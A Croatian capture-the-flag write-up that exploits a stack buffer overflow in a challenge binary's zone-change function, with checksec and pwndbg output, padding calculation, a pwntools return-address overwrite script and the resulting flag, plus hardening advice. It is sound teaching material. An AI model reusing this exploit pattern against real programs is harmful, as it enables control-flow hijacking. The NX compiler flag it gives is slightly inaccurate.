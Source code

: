 # Writeup

## Otkrivanje ranjivosti
Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **stack buffer overflow** kod promijene zone.

```c
void promijeniZonu(){
	char priv[4];
	printf("Unesi novu zonu (3 znaka):\n");
	fgets(priv,44,stdin);
	strcpy(trenutnaZona,priv);
	printf("Zona promijenjena!\n");
}
```

U programu se za unos nove zone rezervira polje veličine 4 bajta, a pomoću funkcije fgets se na rezervirano polje zapisuje maksimalno 44 bajta.

Pomoću programa ```checksec``` mogu se provjeriti zaštite kompajliranog programa.

```
└─$ checksec --file=poruka    
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   2258 Symbols      No    0               0               poruka
```

Iz rezultata postojećih zaštita se može vidjeti da kompajlirani program ne sadrži PIE zaštitu.

## Objašnjenje ranjivosti

Kad je PIE omogućen, sustav koristi tehnologiju poput ASLR (engl. _Address Space Layout Randomization_) za nasumično raspoređivanje adresa programa (npr. adrese funkcija, varijabla, stog...).
Na taj način, čak i ako napadač uspije izvršiti napade, neće moći predvidjeti gdje će se funkcije ili kritični podaci nalaziti u memoriji.
Zbog toga što program ne sadrži PIE, može se preurediti povratna adresa funkcije _promijeniZonu_ na bilo koju drugu adresu.
To je moguće zbog toga što program pomoću _fgets_ upisuje podatke izvan buffera.
U ovom slučaju želimo program preusmjeriti na adresu funkcije _ispisiTajnuPoruku_.
Potrebno je odrediti koji dio korisničkog unosa preuređuje povratnu adresu funkcije.
Za to se može koristiti program ```gdb``` u kombinaciji s ```pwndbg```.

Prvo treba pogledati na kojoj adresi se nalazi buffer:

```
─────────[ DISASM / x86-64 / set emulate on ]────────── 
 ► 0x401a2a <promijeniZonu+42> call fgets <fgets>
        s: 0x7fffffffddac <-- 0xffffddd000000000
		n: 0x2c
        stream: 0x4c45c0 (_IO_2_1_stdin_) <-- 0xfbad2288
```

Adresa gdje se nalazi naš buffer je ```0x7fffffffddac```.
Broj bajtova koje zapisujemo je ```0x2c```  (decimalno je to 44).

Zatim treba pogledati gdje se na stogu nalazi povratna adresa funkcije _promijeniZonu_:
```
────────[ STACK ]─────────
00:0000│ rsp         0x7fffffffdda0 —▸ 0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
01:0008│ rax-4 rdi-4 0x7fffffffdda8 —▸ 0x401d45 (ocistiUlazniBuffer+10) ◂— cmp eax, 0xa
02:0010│ rbp         0x7fffffffddb0 —▸ 0x7fffffffddd0 ◂— 1
03:0018│+008         0x7fffffffddb8 —▸ 0x402172 (main+302) ◂— jmp main+320
```

Povratna adresa funkcije se uvijek nalazi ispod _rbp_. U ovom slučaju, povratna adresa funkcije _promijeniZonu_ se nalazi na ```0x7fffffffddb8```.

Da bi se izračunao potreban padding (udaljenost korisničkog unosa), potrebno je oduzeti adresu mjesta povratne adrese funkcije i adresu na kojoj se nalazi buffer.

```ddb8 - ddac = C = 12```

Izračunati padding je 12 bajtova. 
Sada je potrebno nakon 12 bajtova korisničkog unosa unijeti adresu funkcije _ispisiTajnuPoruku_.


## Iskorištenje ranjivosti

Za izradu rješenja može se napraviti Python skripta koja iskorištava _stack buffer overflow_ ranjivost u zadatku.
Skripta koristi ```pwntools``` biblioteku za interakciju s kompajliranim programom, omogućujući slanje podataka i primanje odgovora od procesa pokrenutog programa. 
Nakon pokretanja programa, skripta odabire opciju promijene zone (3) i zatim za novu zonu unosi korisnički unos koji preusmjerava izvođenje programa na adresu funkcije _ispisiTajnuPoruku_.


```python
from pwn import *

io = process("./poruka")
elf = ELF("./poruka")

# = = = START

print(io.recvuntil(b"Odabir:"))
io.sendline(b"3")

print(io.recvuntil(b"Unesi novu zonu (3 znaka):"))

payload = b""
padding = b"A" * 12
ispisiTajnuPoruku = p64(elf.sym["ispisiTajnuPoruku"])
#elf.sym["naziv"] = funkcije i varijable se zovu simboli, to uzme adresu tog simbola kao
#p64() = pakiraj ova 64 bita u format koji će naš kompjuter moći pročitati (jer on koristi little endian)

payload += padding + ispisiTajnuPoruku

# = = = END
io.sendline(payload)
print(payload)

io.interactive()

```

Pokretanjem ove skripte, ispiše se flag ```CTFFOI[TYP0_Ov3rFl0w]```

## Edukativne smjernice
- _Stack buffer overflow_ je napad kod kojeg unos veći od rezerviranog memorijskog prostora (buffera) prepiše podatke na stogu (npr. povratnu adresu) i omogućuje napadaču da promijeni tok izvršavanja programa.
- Za zaštitu od ove ranjivosti preporučuje se:
   - Pažljivo provjeriti veličine buffera i memorije koja se u njih zapisuje
   - Provjeriti duljinu korisničkog unosa prije njegovog kopiranja u buffer
   - Omogućiti NX (```gcc ... -z noexec```) kako bi spriječili izvršavanje koda na stogu.
   - Uključiti PIE/ASLR (```gcc ... -fPIE -pie```) za nasumično raspoređivanje adresa u memoriji.
